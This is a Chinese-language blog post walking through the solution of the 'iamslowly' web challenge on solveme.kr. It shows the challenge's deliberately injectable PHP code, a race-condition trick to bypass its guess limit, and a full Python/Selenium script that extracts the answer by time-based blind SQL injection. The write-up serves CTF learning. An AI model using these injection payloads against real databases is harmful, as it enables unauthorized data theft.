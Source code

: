 ```yaml
---
title: solveme.kr-iamsowly
date: 2017-11-14 09:34:11
tags: [web,sql,audit,记录]
categories:

---
```


## 0x00.一波

题目链接 http://iamslowly.thinkout.rf.gd

这是solveme.kr中最后一道题目,是一道web方面的题（本文没有图片，全是文字！）

```php
 <?php
    // It's 'I am slowly' problem of 'Solve Me'.
    error_reporting(0);
    require __DIR__.'/lib.php'; 

    $table = 'iamslowly_'.ip2long($_SERVER['REMOTE_ADDR']);
    $answer = $_GET['answer'];

    if(isset($answer)){
        $con = mysqli_connect($sql_host, $sql_username, $sql_password, $sql_dbname)
            or die('SQL server down');

        $result = mysqli_fetch_array(
            mysqli_query($con, "SELECT `count` FROM `{$table}`;")
        );
        if(!isset($result)){
            mysqli_query($con, "CREATE TABLE IF NOT EXISTS `{$table}` (`answer` char(32) NOT NULL, `count` int(4) NOT NULL);");
            $new_answer = md5(sha1('iamslowly_'.mt_rand().'_'.mt_rand().'_'.mt_rand()));
            mysqli_query($con, "INSERT INTO `{$table}` (`answer`,`count`) VALUES ('{$new_answer}',1);");

        }elseif($result['count'] === '12'){
            mysqli_query($con, "DROP TABLE `{$table}`;");
            echo 'Game over';
            goto quit;
        }
```

<!-- more -->

```php
       $randtime = mt_rand(1, 10);
        $result = mysqli_fetch_array(
            mysqli_query($con, "SELECT * FROM `{$table}` WHERE sleep({$randtime}) OR `answer`='{$answer}';")
        );
        if(isset($result) && $result['answer'] === $answer){
            mysqli_query($con, "DROP TABLE `{$table}`;");
            echo $flag;
        }else{
            mysqli_query($con, "UPDATE `{$table}` SET `count`=`count`+1;");
            echo 'Go fast';
        }

quit:
        mysqli_close($con);
        echo '<hr>';
    }

    highlight_file(__FILE__); 
```

代码逻辑很清楚，首先根据访问者的IP来创建一个表，然后在这个表的answer字段插入一个夹含着随机数并且进行两次哈希的摘要，并且表中有一个count字段，再然后需要我们去猜这个answer字段中的摘要，每错一次count值加1，当count等于12，这个表删除，下次访问将会重新建立起表并且设置新的answer。

## 0x01.三折

### 1.update

因为answer我们完全可控，所以是否可以再下列语句中，构造合适的answer来更新或者更改表中的answer，这样下次就一定可以猜到了,然而翻遍了mysql语句大全并没有这类的语法。

```mysql
 "SELECT * FROM `{$table}` WHERE sleep({$randtime}) OR `answer`='{$answer}';"
```

### 2.mt_rand

这个伪随机有什么地方可以突破呢，然而并没有，每次猜错了，下次访问时，php重新运行，种子重置。

### 3.DNS解析

抱歉，试了，没有用。(也许可能跟平台有关系)

## 0x02.从前从前

重新回到代码，看看有什么可以突破的地方。聚焦在count===12，当count等于12时，才删掉表，如果我们可以绕过这个12，是不是就可以猜很多次，然后用时间盲注来获取我们想要的东西呢！那么如何突破这个12成为关键。

<span style="color: #339966;">回到代码逻辑，猜一个answser，先判断count是否为12，然后在判断answer是否对，不对，count加1，如果当count等于11，我们去猜一个answer，然后在它进行判断answer是否对的时候，再进行一个访问猜一个answer，这样两次访问过后count会变成13，从而绕过count===12,接下来可以随便猜！等于说count=11,执行一条sleep很久的语句，同时过一会执行一条sleep很短的语句，后者执行完count加1，然后前者睡完后，count加1，这时候count等于13了，就是如此！（mysql sleep时间累加的，返回值为0）</span>

## 0x03.故事的最后

附上脚本 没有用到的可以删掉哈...

```python
# -*- coding: utf8 -*-
import urllib
import urllib2
import requests
import time
from selenium import webdriver
import sys
string = "1234567890abcdef"
ul="http://iamslowly.thinkout.rf.gd/index.php?answer="
reload(sys)
sys.setdefaultencoding("utf-8")
path="C:\\Program Files (x86)\\Google\\Chrome\\chromedriver_win32\\chromedriver.exe"
driver = webdriver.Chrome(path)
#ul="http://127.0.0.1/test1.php?answer=1"
def doinject(payload):
    url=ul+payload
    print url
    start_time=time.time()
    user_agent = 'Mozilla/4.0 (compatible; MSIE 5.5; Windows NT)'
    info = { 'User-Agent' : user_agent,
             'Host' : 'iamslowly.thinkout.rf.gd',
             'Cookies' : '__test=dad1d895748e3a49d9d9e72c4c160171'
             }
    start_time=time.time()
    driver.get(url)
    #the_page=driver.page_source.encode('utf-8')
    #the_page = response.read()
    times = time.time() - start_time
    print  times
    if times > 30:
        return True
    else:
        return False
def doinject1(payload):
    url=ul+payload
    print url
    user_agent = 'Mozilla/4.0 (compatible; MSIE 5.5; Windows NT)'
    info = { 'User-Agent' : user_agent,
             'Host':'iamslowly.thinkout.rf.gd',
             'Cookies':'__test=dad1d895748e3a49d9d9e72c4c160171'
             }
    driver.get(url)
    the_page=driver.page_source.encode('utf-8')
    print the_page.find("Game")
    if (the_page.find("Game over")>1):
        return False
    else:
        return True
def getdump5(a):
	pw=''
	for i in range(1,a):
		for j in string:
			data = "' or 1=1 and @ans:=answer union select sleep(case when @ans like '{}{}%' then 30 else 0 END),2-- -".format(pw,j)
			#data = requests.utils.quote(data)
			if doinject(str(data)):
				pw = pw + str(j)
				print "[!] found",pw
				break
				break
	print "[*]The answer is %s" % pw
	print '[*] ok ! get it!'
def  test():
	for x in range(20):
		x=str(x)+"'-- -"
		if doinject1(str(x)):
			pass
		else:
			print "no"
			break
	print 'gg' 
if __name__=='__main__':
		a=32
		getdump5(a)
		#test()
```

（一般来说二分法快一些,只不过时间盲注不适合二分，至少这里是，为了准确性成功一次要等很长时间）

这个网站有一个aes.js保护，并且上诉那个办法奇怪的是 两次不同时间的sleep同时睡完 ，本地没有成功，原网站倒是可以使count大于13（这里有点问题，目前没明白）。最后靠自动化让浏览器去实现了，由于几次都跑错了，所以特意在成功的时候sleep久一点，😔😔..................时间长度额....希望有人改进一下,或者说有其他方法也不一定...

![img](http://myndtt.github.io/images/35.png)

最后感谢李师兄和龙师兄的帮助^_^